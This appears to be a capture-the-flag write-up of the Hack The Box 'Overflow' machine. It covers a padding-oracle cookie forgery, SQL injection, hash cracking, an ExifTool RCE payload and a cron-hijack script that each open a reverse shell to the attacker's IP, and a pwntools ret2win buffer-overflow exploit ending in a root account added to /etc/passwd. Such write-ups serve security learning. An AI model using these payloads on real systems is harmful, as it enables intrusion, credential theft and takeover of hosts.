# Overflow (Hack The Box)



In this box we take advantage of a SETUID binary via a buffer overflow and that's just the ending to this encryption and adrenalin filled twisty box.

## nmap

We'll start in the usual way. I utilize [AutoRecon](https://github.com/Tib3rius/AutoRecon) to run nmap and do the initial recon on a device. Its super noisy so I wouldn't suggest using it on a real target.

```
Nmap scan report for overflow.htb (10.10.11.119)
Host is up, received user-set (0.056s latency).
rDNS record for 10.10.11.119: overflow
Scanned at 2022-02-04 14:06:12 CST for 96s
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
25/tcp open  smtp    syn-ack Postfix smtpd
|_smtp-commands: overflow, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Overflow Sec
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: Host:  overflow; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I've edited out a bit here (the ssh port information; with HTB that is almost never important).

## Website (port 80)



Ohh.. a security company. You'd expect them to have bullet proof online security. Prepare to be disappointed.

### Signup!

Ferox turned up some interesting files, but nothing that looked exploitable: 



But we can signup, so lets signup for the excellent security services:



Which makes some changes to our menu:



### Oracle

Looking at the headers returned by the web server there is something interesting:

```
HTTP/1.1 302 Moved Temporarily
Date: Sat, 05 Feb 2022 19:14:57 GMT
Server: Apache/2.4.29 (Ubuntu)
Set-Cookie: auth=ld7SfazGQgAv7spXpgaoxTprstoV2QMV
Location: home/index.php
Content-Length: 0
Connection: close
Content-Type: text/html; charset=UTF-8
```

That **auth** cookie doesn't look like any of the standard cookies I might expect to see like JWT or the PHPSESSION cookies. It could just be a value or serialized data structure encrypted with a secret key. If so there is an attack that called *Padding Oracle* that might be able to discover that secret key and decrypt the value.

```
rustpad web --oracle "http://${TDOMAIN}/home/index.php" --decrypt ld7SfazGQgAv7spXpgaoxTprstoV2QMV -H "Cookie: auth=CTEXT"  --block_size 8
```

(${TDOMAIN} is an environment variable that gets set automatically when I'm working on HTB machines to the name of the machine + ".htb". That makes it easier for me to just copy/paste commands from my pentesting notes.)

The *rustpad* utility can perform this attack and it takes it almost no time to get the job done:



Ok, so we can now see the value of the **auth** cookie is "user=Developer". If there are developers there are probably administrators, eh? *rustpad* can also encrypt new values for us:

```
rustpad web --oracle "http://${TDOMAIN}/home/index.php" --decrypt ld7SfazGQgAv7spXpgaoxTprstoV2QMV -H "Cookie: auth=CTEXT"  --block_size 8 --encrypt "user=Admin"
```

which results in an **auth** cookie value of "eq0ahntVSiQj7KMhxXKswTprstoV2QMV". Replacing the cookie in Burpsuite gets us into the next layer of the website as some sort of administrator:





Trying to login generates a generic message, but you can use the "Forgot your password" function here to enumerate users and find that "Admin" is a valid user name.

If you look at what has happened in Burpsuite though, when we 1st got admin access it loaded the data for the **Logs** menu option in the background:




Running *sqlmap* on that URL finds a SQL Injection vector and we get a database dump!

```
user_id,email,active,password,username,last_name,first_name,create_date,admin_access,modified_date
1,admin@overflow.htb,1,c6c6b9310e0e6f3eb3ffeb2baff12fdd,admin,<blank>,<blank>,2021-05-24 21:18:35,1,2021-05-26 14:49:15
3,<blank>,1,e3d748d58b58657bfa4dffe2def0b1c7,editor ,<blank>,editor,2021-05-25 06:38:33,1,2021-05-26 04:13:58
```

**Hashes.com** says that is an MD5 hash so we can put those into **Hashcat** with the usual *rockyou.txt* wordlist:

```
.\hashcat.exe --username -m 20 -a 0 -w 3 .\hashes.txt ..\wl\rockyou.txt
```



We don't get the "admin" password, but do get the one for "editor" and that we can use to login to the CMS.



## Foothold

It sure wouldn't be a HTB Hard box if there weren't a bunch of hoops to jump through to get to the foothold. And we're not done yet. The version of CMS should be susceptible to creating a "User Defined Tag" that executed PHP for us, but I couldn't get it to work. However, there is some handy information you get while trying to do so:



A new vhost and our "editor" user can login to it too!



Even better! A new vhost we can login to and has an upload function we can exploit! When I upload an image I get a nice message saying it was successful, but again checking Burpsuite I find that the 302 redirect we got has some interesting information:


*ExifTool* is processing the image. *ExifTool* has been susceptible to several interesting exploits mostly because images don't have to be a collection of pixels when *ExifTool* processes them. Instead they can be instructions on how to create the image. We can use *ExifTool* in this case to perform a Remote Command Execution (RCE) as described here:  https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/

This is the payload I put into a .png file:

```
(metadata "\c${system('/bin/bash -c \'/bin/bash -i > /dev/tcp/10.10.14.16/5555 0>&1\'')};")
```

Setup [PWNCAT](https://pwncat.org/) to catch the shell and then upload our "resume.png" and finally.. Foothold.



## Post Exploitation

There were some config PHP files *Ferox* dug up before so lets see what we get in /var/www/html/config/db.php:

```php
<?php 

#define('DB_Server', 'localhost');
#define('DB_Username', 'root');
#define('DB_Password','root');
#define('DB_Name', 'Overflow');

$lnk = mysqli_connect("localhost","developer", "sh@tim@n","Overflow");
$db = mysqli_select_db($lnk,"Overflow");

if($db == false){
    dir('Cannot Connect to Database');
}

?>
```

Those creds are good enough for SSH so we secure our position relatively quickly and can now take a short break because you and I need to hydrate and stretch our legs.



(*sshnoh* is just the regular *ssh* command aliased to keep the server details from being added to my known_hosts file: 

```bash
sshnoh='ssh -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no"'
```

)

You're not going to believe this, but not even this gets us the User flag.


If you look at the groups *developer* is in he is in a group that is not part of the normal user creation process: *network*. I always start up *pspy64* in another window once I have a foothold or actual user access to a box and that shows us a CRON job running a shell script:



/opt/commontask.sh:

```bash
#!/bin/bash
#make sure its running every minute.
bash < <(curl -s http://taskmanage.overflow.htb/task.sh)
```

We want to take over that *taskmanage* domain and looking at /etc/hosts we see the power *developer* has; the power to edit the hosts file.

```
$ ls -lha /etc/hosts
-rwxrw-r-- 1 root network 201 Feb 11 08:00 /etc/hosts
```

So we're going to update the hosts file to point "taskmanage.overflow.htb" to our IP address and have Overflow load the script from our very naughty webserver. Our *task.sh*

```
#!/bin/sh
/bin/bash -c '/bin/bash -i > /dev/tcp/10.10.14.16/4446 0>&1'
```

We'll use [pwncat-cs](https://github.com/calebstewart/pwncat) this time since I know I don't need PWNCAT's ability to secure a foothold.



And finally.. you'll find *user.txt* here and we're ready to head towards the finish line.

## Privilege Escalation (privesc)



And now we get to the part of our show where we learn the significance of the machine's name: **Overflow**.

We don't have the source for this application, but it is SETUID and almost certainly going to be our vector to privesc. What we know from the description is that there is a PIN to be consumed by the application and a file encryption function but that the encryption function is currently disabled. So our goal is 3 fold, find out the PIN, reenable the encryption, and some how co-opt that into elevated access.

I gotta be honest. I can describe the process, but I had to get several hints here to discover the PIN. Mostly I got hung up on endianness and signed vs unsigned integers. But if you run the program in a debugger you can track down where it is doing the PIN comparison:



and here is where it all went wrong for me:



That is a crazy PIN and I'm going to have to work on buffer overflow CTFs more.

The next step is to bypass the attempt to disable it and run the encryption code. Essentially I just followed the steps here: https://ir0nstone.gitbook.io/notes/types/stack/ret2win. I have a whole Python program I ended up with to discover and exploit the overflow. The entire program isn't important, but I'll walk through some of its important functions. I can't talk up enough the [pwntools](https://docs.pwntools.com/en/stable/) library. It allows you to remotely control a box through SSH and to perform many debugging functions geared toward exploiting binary apps.

### Testing our limits

After the PIN the program prompts for a name which might be asking for the tester's name, IDK. The 1st thing we need to do is figure out at what point (if any) we can get the program to crash at:

```python
def trycrash(at, bash):
    # Try to cause a buffer overflow in the application with the given number characters.

    cmd = """python3 -c "print('""" + PIN + """\\n','A' * """ + str(at) + """)\" | ./file_encrypt"""
    bash.sendline(cmd.encode())
    received = bash.recvline(timeout=0.4)
    received += bash.recvline(timeout=0.4)
    if "Segmentation" in str(received):
        return True

    return False
```

This code is simply running the program when it is called and supplying the PIN plus the number of "A"s specified by the **at** parameter. The **bash** parameter is a *pwntrools* SSH connection to the box. I don't really want to run random binaries on my own box. Once we get the segfault we can move on to...

```python
def Step1FindEIPCrashValue(crash_at):
    """
    Look at the EIP value in the dump and snag the hex value.
    You'll have to play with the crash_at value some to get the registers to 
    all show cyclic values. Not sure how to automated that part.
    """
    with ssh_connection.system("bash",tty=False) as bash:
        # Do some debugging
        bash.sendline(b'cd /opt/file_encrypt')
        bash.sendline(b'gdb ./file_encrypt')
        bash.sendline(b'run')
        bash.sendline(PIN.encode())
        bash.sendline(cyclic(crash_at))
        printbuffer(bash)
```

This will output the state of all the registers including the EIP or instruction pointer... where the code was when it died. We now know that the crash is at 51 "A"s (some manual experimentation has to be done. My actual code came up with 44, but once I had the basic method down I had to extend that until it "worked".)

```python
def Step3Exploit(crash_at,ret2win_address):
    """
    """
    with ssh_connection.system("bash",tty=False) as bash:

        payload = b'A' * crash_at
        payload += ret2win_address
        print(payload)
        
        bash.sendline(b'./file_encrypt')
        bash.sendline(PIN.encode())
        bash.sendline(payload)
        bash.interactive()
```

Finally we're going to do the exploit by using our overflow to point the EIP at the encrypt function thereby bypassing the disabling code. The ret2win_address is found by disassembling the code. Just go to the label "encrypt".

```python
ret2win_address = p64(0x5655585b,endian="little")
```

So we run "file_encrypt" and are prompted for a PIN which we know (-202976456) and for the name:

```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[XUV\x5b\x58\x55\x56
```

That overflows the "name" field and gives us prompts for a file. After a little experimentation you'll find that this program encrypts the unencrypted and decrypts the encrypted. So what we're going to do is create a copy of the /etc/passwd file that has a new, root level, user in it and trick *file_encrypt* to overwrite the system's /etc/passwd file.

```bash
cp /etc/passwd /tmp/passwd
echo "hacked:$(openssl passwd -1 theshadowknows):0:0:root:/root:/bin/bash" >> /tmp/passwd
# run file_encrypt supplying /tmp/passwd and /tmp/passwd1 as the files.
# run encrypt again supplying /tmp/passwd1 and /etc/passwd as the files.
```

Now we can *su* to our new user:

```
su - hacked
```

and with that... we're root.


